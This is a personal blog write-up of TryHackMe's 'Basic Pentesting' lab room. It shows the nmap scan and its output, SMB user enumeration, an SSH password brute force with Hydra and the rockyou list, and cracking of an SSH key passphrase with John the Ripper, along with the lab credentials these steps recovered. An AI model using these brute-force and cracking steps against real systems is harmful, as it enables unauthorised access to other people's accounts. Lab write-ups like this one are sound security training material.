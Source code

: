 ```yaml
---
emoji: ":thermometer:"
title: "How to Warm Up my HACKING skills with TryHackMe"
date: "2020-04-23T14:17:03Z"
author: Jorge Chato
categories:
- hack 
tags:
- hack
draft: false
toc: true
summary: |
  TryHackMe is an online platform for learning and teaching cyber security.
  It is based on completing rooms and upskill in security, all from your browser.
  This is my writeup for the Basic pentesting room.
---
```



I have the feeling that the core of the last few articles is related to **_pentesting_** and **_hacking_**. But after discussing about integration patterns, coding and best practices all day long in my job I fond myself enjoying the hacking challenges in my spare time.

TryHackMe is an online platform for learning and teaching cyber security. It is based on completing rooms and upskill in security, all from your browser.

This article is a **Writeups** for the  [_Basic Pentesting_ room](https://tryhackme.com/room/basicpentestingjt).

{{< figure src="/img/2020/03/image.png" >}}

**1️. Deploy the machine and connect to our network**

**2️. Find the services exposed by the machine**

```bash
$ nmap -sC -sV <IP>
```

```bash
# Nmap 7.80 scan initiated Sun Mar 22 11:26:39 2020 as: nmap -sC -sV -oN output/nmap 10.10.38.196
Nmap scan report for 10.10.38.196
Host is up (0.077s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h19m59s, deviation: 2h18m34s, median: -1s
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2020-03-22T06:26:54-04:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-03-22T10:26:54
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Mar 22 11:26:58 2020 -- 1 IP address (1 host up) scanned in 19.80 seconds
```

We  have 3 Open PORTS:

* 22 (SSH)
* 139 and 445 (smbd)

If we open this IP in the browser we see a server sunning.

{{< figure src="/img/2020/03/image-6.png" >}}

{{< figure src="/img/2020/03/image-2.png" >}}

**3. What is the name of the hidden directory on the web server(enter name without /)?**

```html
<!-- Check our dev note section if you need to know what to worck on. -->
```

We could use [gobuster](https://github.com/OJ/gobuster) to search for directories with brute-force but since we have a hint here let's try it first... ok `/dev` isn't the directory we are looking for but we see an apache server running. Maybe `/development` is the right endpoint... Yes, we nailed it.

{{< figure src="/img/2020/03/image-5.png" >}}

{{< figure src="/img/2020/03/image-7.png" >}}

{{< figure src="/img/2020/03/image-8.png" >}}

**4. User brute-forcing to find the username & password**

**5. What is the username?**

We have smbd open, that can give us a lot of information. We can use Enum4linux for that. Since I don't have the tool installed on my machine and handling all the dependencies may be a nightmare let's use docker.

```bash
$ docker run --rm -it enum4linux -a <IP>
```

2 users pop up, **jan** a.k.a. J and **kay** a.k.a. K.

**6. What is the password? + 7. What service do you use to access the server(answer in abbreviation in all caps)?**

Seen the input field we can assume the password is pretty simple, a brute force approach should unlock it.

We have the information about the open ports thanks the nmap tool. SSH is a great candidate with a tool called **_[Hydra](https://tools.kali.org/password-attacks/hydra)_**. A common password dictionary is needed tho and we are going to use [rockyou.txt](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt)

Rockyou.txt contains 14,341,564 unique passwords, used in 32,603,388 accounts.

Kali Linux provides this dictionary file as part of its standard installation.

```bash
$ hydra -l jan -P rockyou.txt ssh:<ip>

login: jan   password: armando
```

**8. Enumerate the machine to find any vectors for privilege escalation**

**9. What is the name of the other user you found(all lower case)?**

We already have this information from point 5.

**10. If you have found another user, what can you do with this information? + 11. What is the final password you obtain?**

Awesome, now we can login with SSH as `jan` . Listing the file in jan directory doesn’t give us any answer to escalating the privilege. Still, remember we have the user kay? Let’s find it out.

We found the `id_rsa` and `id_rsa.pub` and a strange file `pass.back`, unfortunately when we try to ssh using the key file we see the key requires a passphrase.

```bash
$ ssh -i id_rsa kay@<IP>

Enter passphrase for key 'id_rsa':
```

But luckily we can cat out this file and crack the key with [JohnTheRipper](https://github.com/magnumripper/JohnTheRipper/blob/bleeding-jumbo/run/ssh2john.py)

```bash
$ ssh2john.py output/kay/id_rsa > id_rsa.txt

$ docker run -it --rm -v $(pwd)/id_rsa.txt:/opt/id_rsa.txt -v $(pwd)/dic/rockyou.txt:/opt/rockyou.txt obscuritylabs/johntheripper /opt/id_rsa.txt --wordlist=/opt/rockyou.txt
...
beeswax   (output/kay/id_rsa)
```

Now we can login as kay with the public key and cat the strange file we saw under the home directory for this user.

```bash
$ ssh -i id_rsa kay@<IP>

$ cat pass.back

heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

> The stream is in **Spanish**

{{< youtube UK9YkhEI4CU >}}
